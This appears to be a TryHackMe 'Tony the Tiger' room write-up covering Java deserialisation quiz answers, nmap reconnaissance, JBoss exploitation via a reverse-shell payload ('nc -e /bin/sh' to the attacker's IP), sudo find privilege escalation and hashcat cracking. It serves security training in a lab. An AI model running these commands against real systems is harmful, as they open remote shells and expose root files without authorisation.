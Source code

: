 ```yaml
---
description: https://tryhackme.com/room/tonythetiger
---
```


# Tony the Tiger

## :book: Support Material

### What is a great IRL example of an "Object"?

> lamp

### What is the acronym of a possible type of attack resulting from a "serialisation" attack?

> DoS

### What lower-level format does data within "Objects" get converted into?

> byte stream

## :map: Reconnaissance

### What service is running on port "8080"

```
nmap -sV -p8080 10.10.230.198
```

![](<../../.gitbook/assets/Screenshot from 2020-09-30 11-45-10.png>)

### What is the name of the front-end application running on "8080"?

```
nmap -p8080 --script http-title 10.10.230.198
```

![](<../../.gitbook/assets/Screenshot from 2020-09-30 11-47-15.png>)

## :flag\_black: Find Tony's Flag!

```bash
nmap 10.10.230.198
```

![](<../../.gitbook/assets/Screenshot from 2020-09-30 11-49-35.png>)

![](<../../.gitbook/assets/Screenshot from 2020-09-30 11-54-40.png>)

```
wget https://i.imgur.com/be2sOV9.jpg
strings be2sOV9.jpg
```

![](<../../.gitbook/assets/Screenshot from 2020-09-30 11-56-56.png>)

## :space\_invader: Exploit!

```
nc -nvlp 4444
```

```
unzip jboss.zip
cd jboss/
python exploit.py 10.10.230.198:8080 'nc -e /bin/sh 10.9.101.193 4444'
```

## :checkered\_flag: Find User JBoss' flag!

```
$ ls -lA /home
$ ls -lA /home/jboss
$ cat /home/jboss/note
$ cat /home/jboss/.bash_history
```

![](<../../.gitbook/assets/Screenshot from 2020-09-30 12-40-32.png>)

![](<../../.gitbook/assets/Screenshot from 2020-09-30 12-41-27.png>)

## Escalation!

```bash
$ python -c 'import pty; pty.spawn("/bin/bash")'
$ su - jboss
$ sudo -l
$ sudo /usr/bin/find /root -type f -name root.txt -exec cat {} \;
```

![](<../../.gitbook/assets/Screenshot from 2020-09-30 12-52-31.png>)

![](<../../.gitbook/assets/Screenshot from 2020-09-30 12-53-51.png>)

```bash
echo -n 'QkM3N0FDMDcyRUUzMEUzNzYwODA2ODY0RTIzNEM3Q0Y=' > md5.txt
hashcat -a 0 -m 0 md5.txt /usr/share/wordlists/rockyou.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-09-30 12-51-38.png>)

## :link: Support Material

{% embed url="https://www.digicentre.com.tw/industry_detail.php?id=37" %}
